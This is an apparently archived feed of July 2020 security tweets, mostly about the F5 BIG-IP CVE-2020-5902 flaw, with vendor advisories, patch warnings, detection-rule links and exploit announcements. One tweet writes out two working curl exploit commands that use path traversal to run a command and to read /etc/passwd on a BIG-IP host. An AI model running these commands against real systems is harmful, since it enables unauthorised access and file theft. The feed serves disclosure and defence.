<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>74</code></td>
</table></tr>

---

# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1279842348348956672 _at 2020-07-05 18:19:28_**
<blockquote>
A quick NMAP script for CVE-2020-5902.
https://t.co/ozd9HcFoSY
#infosec https://t.co/tGaYUtGcxz
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>414</code></td>
<td>Favorites: <code>944</code></td>
</table></tr>

---

# xer0dayz
**https://twitter.com/xer0dayz/status/1279815244303331328 _at 2020-07-05 16:31:46_**
<blockquote>
Added sc0pe templates to scan and detect CVE-2020-5902 Remote Code Execution &amp; XSS on F5 BIG-IP devices to Sn1per. https://t.co/qEnX1iZ8H4

#hackers #hacking #bugbounty #bugbountytips #pentesting #pentest #redteam #OSINT #recon #tools #offsec #CTF #netsec #PoC #exploit
</blockquote>

* https://github.com/1N3/Sn1per

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>97</code></td>
</table></tr>

---

# x4ce
**https://twitter.com/x4ce/status/1279790599793545216 _at 2020-07-05 14:53:51_**
<blockquote>
cve-2020-5902 :
RCE: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
Read File: curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

Well, Thanks Me Letter.
</blockquote>

<table><tr>
<td>Quotes: <code>38</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>379</code></td>
<td>Favorites: <code>696</code></td>
</table></tr>

---

# rimpq
**https://twitter.com/rimpq/status/1279771865247109120 _at 2020-07-05 13:39:24_**
<blockquote>
Rules to detect exploitation of #F5 BIG-IP TMUI #vulnerability (#CVE-2020-5902)

#SIGMA (by @cyb3rops / @SOC_Prime ):
➡️ https://t.co/SLZLrl4gVG
➡️https://t.co/W3hSLbCnul 

#Snort/#Suricata by @ET_Labs (ET Open):
➡️https://t.co/gbJdyKOWHY 
#BlueTeam #SOC #ThreatHunting #Exploit https://t.co/96TYY2I2Rm
</blockquote>

* https://tdm.socprime.com/tdm/info/a3bYpIF6od6C
* https://github.com/Neo23x0/sigma/blob/master/rules/web/web_cve_2020_5902_f5_bigip.yml
* https://pastebin.com/2PbtrJ28

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>264</code></td>
</table></tr>

---

# CharlesDardaman
**https://twitter.com/CharlesDardaman/status/1279581691573567489 _at 2020-07-05 01:03:43_**
<blockquote>
Spent some time with @0xm1rch to get our exploit working for the F5 Big-IP TMUI vuln (CVE-2020-5902) We also got LPE working easily #infosec https://t.co/BxMUSPcLAD
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>100</code></td>
<td>Favorites: <code>263</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1279558437643399168 _at 2020-07-04 23:31:19_**
<blockquote>
CVE-2020-14947  The official exploit for OCS Inventory NG v2.7 Remote Command Execution CVE-2020-14947  https://t.co/hXPHrBUK3e  #Pentesting #RCE #Exploit #CyberSecurity #Infosec https://t.co/Gr84UOsKqy
</blockquote>

* https://github.com/mhaskar/CVE-2020-14947

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>7</code></td>
</table></tr>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1279523931624484866 _at 2020-07-04 21:14:12_**
<blockquote>
F5 has released a security advisory to address a critical RCE vulnerability (CVE-2020-5902) in the BIG-IP Traffic Management User Interface (TMUI). Read more at https://t.co/aHxgi33mdV #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xfqJA

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>186</code></td>
<td>Favorites: <code>292</code></td>
</table></tr>

---

# F5Security
**https://twitter.com/F5Security/status/1279474093486747648 _at 2020-07-04 17:56:10_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/4xADlQ3N6V #BIGIP #AskF5
</blockquote>

* https://go.f5.net/s3pfp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>34</code></td>
</table></tr>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1279438548085678081 _at 2020-07-04 15:34:55_**
<blockquote>
We're seeing active scanning and/or exploitation (file retrieval in enc passwds) of the @F5Networks K52145254: TMUI RCE vulnerability #CVE-2020-5902 issue from these IPs and user agent combos - https://t.co/NEYoemfNdw
</blockquote>

* https://github.com/nccgroup/Cyber-Defence/blob/master/Intelligence/CVE-2020-5902/f5-ip-user-agents.csv

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>23</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1279423483303194624 _at 2020-07-04 14:35:03_**
<blockquote>
Critical Unauthorized RCE #Vulnerability (CVE-2020-5902 with CVSS Score 10/10) Affects F5's BIG-IP Application Security Servers Used in large Enterprises, Data Centers, and #CloudComputing Environments.

Details — https://t.co/6Fmean9wC4

Apply Newly Released Patch Updates ASAP! https://t.co/AWIRTMoHft
</blockquote>

* https://thehackernews.com/2020/07/f5-big-ip-application-security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>193</code></td>
<td>Favorites: <code>288</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1279158081847468033 _at 2020-07-03 21:00:26_**
<blockquote>
RT @CNMF_CyberAlert: URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately. https://t.co/…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# CNMF_CyberAlert
**https://twitter.com/CNMF_CyberAlert/status/1279151966178902016 _at 2020-07-03 20:36:08_**
<blockquote>
URGENT: Patching CVE-2020-5902 and 5903 should not be postponed over the weekend. Remediate immediately.
</blockquote>

<table><tr>
<td>Quotes: <code>92</code></td>
<td>Replies: <code>27</code></td>
<td>Retweets: <code>916</code></td>
<td>Favorites: <code>1233</code></td>
</table></tr>

---

# _hg8_
**https://twitter.com/_hg8_/status/1279130278410235907 _at 2020-07-03 19:09:58_**
<blockquote>
"Bolt CMS &lt;= 3.7.0 Multiple Vulnerabilities - CSRF to RCE (CVE-2020-4040, CVE-2020-4041)"

Tl;Dr: When the admin of Bolt CMS visits the PoC page backdoor.php gets uploaded.

https://t.co/F96LJsjsxb #cve
</blockquote>

* https://seclists.org/fulldisclosure/2020/Jul/4

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</table></tr>

---

# F5
**https://twitter.com/F5/status/1279022116868960257 _at 2020-07-03 12:00:10_**
<blockquote>
The BIG-IP Traffic Management User Interface (TMUI) has a Remote Code Execution vulnerability (CVE-2020-5902) in undisclosed pages. F5 recommends upgrading to a fixed software version to fully mitigate this vulnerability, more details here: https://t.co/yTL0iUBajI #BIGIP #AskF5
</blockquote>

* https://go.f5.net/dk3nl

<table><tr>
<td>Quotes: <code>60</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>354</code></td>
<td>Favorites: <code>464</code></td>
</table></tr>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1279001035311403008 _at 2020-07-03 10:36:24_**
<blockquote>
BIG-IP customers may want to pay attention to CVE-2020-5902. 

Remote code execution, unauthenticated, ../.. traversal ascii style to management interface.

https://t.co/Oh1kO0TkiP
</blockquote>

* https://nvd.nist.gov/vuln/detail/CVE-2020-5902

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>214</code></td>
</table></tr>

---

# pentestltd
**https://twitter.com/pentestltd/status/1278961377768546304 _at 2020-07-03 07:58:49_**
<blockquote>
Read all about our latest #research - A Remote Code Execution (RCE) vulnerability our researchers found within #Drupal Core, versions 8 &amp; 9 (CVE-2020-13664). Huge well to Lorenzo Grespan and @_s_n_t for all their hard work on this ---&gt; https://t.co/8yZdsHMQPo https://t.co/iv9z4zL8dF
</blockquote>

* https://buff.ly/3iyKSr0

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>53</code></td>
</table></tr>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1278374169294626817 _at 2020-07-01 17:05:27_**
<blockquote>
LFI-Fuzzer-Burp-Suite: Local File Inclusion Burp-Suite Intruder Payload Generator Plugin. https://t.co/7rz3YUvGCU
</blockquote>

* https://github.com/luke-goddard/LFI-Fuzzer-Burp-Suite

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>63</code></td>
</table></tr>

---

# threatintelctr
**https://twitter.com/threatintelctr/status/1278338171088977921 _at 2020-07-01 14:42:25_**
<blockquote>
🚨 NEW: CVE-2020-4060 🚨 In LoRa Basics Station before 2.0.4, there is a Use After Free vulnerability that leads to memory corruption. This bug is triggered on 32-bit machines when the CUPS server responds with a me... (click for more) Severity: MEDIUM https://t.co/chhrUOrjuk
</blockquote>

* https://github.com/lorabasics/basicstation/security/advisories/GHSA-v9ph-r496-4m2j

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# yorickkoster
**https://twitter.com/yorickkoster/status/1278252429289684998 _at 2020-07-01 09:01:42_**
<blockquote>
Now that the cat is out of the bag, I have made my BitDefender VPN LPE proof of concept public:

https://t.co/RCaf6bDflX

Great job describing your research approach for CVE-2020-12828 @0xsha 👍
</blockquote>

* https://gist.github.com/ykoster/b627130ea1ec1e4d5a1b996092077805

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>34</code></td>
</table></tr>

---

# campuscodi
**https://twitter.com/campuscodi/status/1278192608775454722 _at 2020-07-01 05:04:00_**
<blockquote>
Microsoft has releases an emergency security update on Monday to fix two RCE bugs in the Windows Codecs Library

-Update delivered through the Windows Store
-No user interaction needed
-CVE-2020-1425 &amp; CVE-2020-1457

https://t.co/RyA1yhmU1m https://t.co/3auScXsswZ
</blockquote>

* https://www.zdnet.com/article/microsoft-releases-emergency-security-update-to-fix-two-bugs-in-windows-codecs/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>41</code></td>
</table></tr>

---

